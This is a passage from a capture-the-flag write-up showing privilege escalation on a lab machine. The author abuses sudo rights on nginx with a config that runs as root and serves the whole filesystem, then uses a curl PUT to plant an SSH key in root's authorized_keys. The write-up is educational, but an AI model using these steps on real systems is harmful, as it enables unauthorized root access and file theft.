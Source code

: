 I create a very simple nginx.conf file in /tmp:

{% code overflow="wrap" %}
```
user root;
events {
    worker_connections 1024;
}
http {
    server {
        listen 1337;
        root /;
        autoindex on;
    }
}
```
{% endcode %}

Running `sudo /usr/sbin/nginx -c /tmp/nginx.conf` doesnt return any output meaning its successful, navigating to the page with the port I set as 1337:

Voila the entire machine is readable here!

<figure><img src="../../.gitbook/assets/image (4).png" alt=""><figcaption></figcaption></figure>

And we navigate to /root/root.txt and thats root! We can also get shell as root by using the PUT request:\
`curl -X PUT localhost:1337/root/.ssh/authorized_keys -d 'mysshkey'`

Thanks for reading despite this not being a great writeup, im still learning.

